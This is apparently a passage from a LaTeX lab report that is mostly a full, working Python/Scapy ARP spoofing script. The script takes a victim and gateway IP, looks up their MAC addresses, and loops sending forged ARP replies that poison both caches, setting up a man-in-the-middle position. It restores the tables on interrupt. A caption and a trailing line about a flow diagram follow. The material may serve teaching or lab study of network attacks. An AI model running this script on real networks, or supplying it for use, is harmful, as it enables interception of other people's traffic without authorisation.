 \begin{lstlisting}[language=python]{}
from scapy.all import *
import argparse
import time

# Get arguments from command line
parser = argparse.ArgumentParser()
parser.add_argument("--victim", dest="victim", help="Victim's IP Address")
parser.add_argument("--gateway", dest="gateway", help="Gateway's IP Address")
options = parser.parse_args()
victim = options.victim
gateway = options.gateway
# Get mac address of the victim and gateway
# Request victim's mac by sending a Broadcast ARP request
print("Victim's IP:\t", victim)
print("Gateways's IP:\t", gateway)
rqst = ARP(pdst=victim)
victim_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
# Request gateway's mac by sending a Broadcast ARP request
rqst = ARP(pdst=gateway)
gateway_mac = srp((Ether(dst="ff:ff:ff:ff:ff:ff")/rqst), timeout=1, verbose=True)[0][0][1].hwsrc
print("Victim's mac:\t", victim_mac)
print("Gateway's mac:\t", gateway_mac)


print("-----ARP Spoofing------")
try:
    while True:
        #Sends a packet to the victim that fakes being the gateway
        #But the mac address comes from this machine
        packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway)
        send(packet, count=4, verbose=True)
        #The same but this time we fake being the victim
        packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim)
        send(packet, count=4, verbose=True)
        time.sleep(1)
except KeyboardInterrupt:
    # When the program is interrupted we restore the ARP table by
    # sending correct ARP packets by specifying the mac address
    print("Restoring ARP tables")
    packet = ARP(op=2,pdst=victim, hwdst=victim_mac, psrc=gateway, hwsrc=gateway_mac)
    send(packet, count=4, verbose=True)
    packet = ARP(op=2,pdst=gateway, hwdst=gateway_mac, psrc=victim, hwsrc=victim_mac)
    send(packet, count=4, verbose=True)
    print("Done")
\end{lstlisting}

\begin{center}
    The Python script used for  Spoofing
\end{center}


\newpage

The code can be summarized in this flow diagram:


